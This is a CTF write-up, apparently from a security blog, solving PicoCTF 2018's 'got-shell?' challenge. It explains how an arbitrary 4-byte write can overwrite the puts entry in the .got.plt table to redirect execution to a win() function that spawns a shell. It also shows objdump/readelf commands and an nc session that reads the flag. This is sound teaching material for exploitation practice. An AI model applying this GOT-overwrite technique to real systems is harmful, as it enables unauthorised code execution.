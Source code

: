 ```yaml
---
title:  PicoCTF 2018 - got-shell?
description: You're only 4 bytes away from pwn - assuming you can put them in the right spot.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - got-shell?

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

This is one of those problems that isn't a "bug" so much as an [intentional learning opportunity]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/shellcode.md %}).

```c
void win() {
  system("/bin/sh");
}

// ...
puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");
scanf("%x", &address);

sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
puts(buf);
scanf("%x", &value);

sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);
*(unsigned int *)address = value;
```

In essence, the program is asking you to stomp on any 4 bytes you'd like in memory.

## Strategy

This problem gives us a *very* simple arbitrary memory write exploit. Obviously, given the existence of the `win()` function, we should use that memory write to somehow call `win()`.

The secret to this problem is understanding the role of the "`.got.plt`" section of a binary. The intricacies of how the dynamic linker resolves symbols are probably best left to the experts. If you're interested in this kind of thing, then I highly recommend the following youtube video about the topic:

<iframe width="560" height="315" style="display: block; margin: 0 auto;" src="https://www.youtube-nocookie.com/embed/dOfucXtyEsU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Once we understand the role of the "`.got.plt`" segment, it will become clear how an arbitrary 4 byte memory write will help us execute the `win()` function. If you already know - the try the challenge now by running  `nc 2018shell.picoctf.com 3582`.

## Background Info

In a nutshell, when we link against libc we don't know ahead of time exactly where it will be in memory. This is particularly true if libc is compiled with PIE, and ASLR is turned on, but in general it is true because we expect libc to be mostly cross-compatible, and your binary may be running against a significantly newer version of libc than what the compiler had access to when it created the binary. We say that the binary is dynamically-linked against libc. The binary contains a list of dynamic symbols that it must "look-up" if/when it needs them. If we need `stdin` or `stdout`, for instance, then those symbols are located in `libc`. If we need the `puts` function, then the address we need to call is also inside `libc`. Sometimes the symbols will be looked up by `ld-linux.so`, which is the dynamic linker/loader used by linux systems when the executable first starts. Other times, the compiler will put in a small shim that will wait to resolve the symbol until the first time it is required (so-called lazy binding).

Generally the addresses of these dynamic symbols will end up in one of two sections in memory: either the "`.got`" data section (typically used for the address of global variables), or the "`.got.plt`", which is in data memory (not code, so not in an executable segment) that contains the address of functions. The compiler also emits small "thunks" for every function with dynamic linkage. These "thunks" are small bits of code (in an executable segment) that essentially "jump" to a corresponding address inside the "`.got.plt`" table (when lazy-binding is involved they also do a little bit more). When you call `puts` from code, you actually call a small "thunk" inside your program that loads the address for the `puts` symbol from the "`.got.plt`" table and then jumps to it.

Unless extreme measures are taken (so called "FULL-RELRO"), the "`.got.plt`" table is writeable (this is required if lazy-binding is to be used). If we over-write data inside the `.got.plt` table, then the next time the "thunk" is called, it will actually jump to whatever address we desire. We'll use this to call the `win()` function and grab the flag.

## Exploitation

First up, let's figure out the address of `win()`.

```
$ objdump -t ./got-shell | grep win
0804854b g     F .text  00000019              win
```
{:.contains-term}

Next, we need to figure out a dynamicly linked function that is called AFTER the memory stomp that we can override with our own function.

```c
*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
exit(1);
```

In this case, either `puts` or `exit` should work - lets use `puts`. Now, what is the address for the `puts` symbol inside of the "`.got.plt`" segment?

```
$ readelf -r ./got-shell | grep puts
0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
```
{:.contains-term}

In this case, the answer is `0x0804a00c`, which is where we want to write our new function pointer to `win()`, which is at `0x0804854b`.

Lets, try it out by connecting to `nc 2018shell.picoctf.com 3582`:

```
$ nc 2018shell.picoctf.com 3582
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0x0804a00c
Okay, now what value would you like to write to 0x804a00c
0x0804854b
Okay, writing 0x804854b to 0x804a00c
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```

Awesome! Now that we know more about the "`.got`", let's head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) and tackle the next challenge.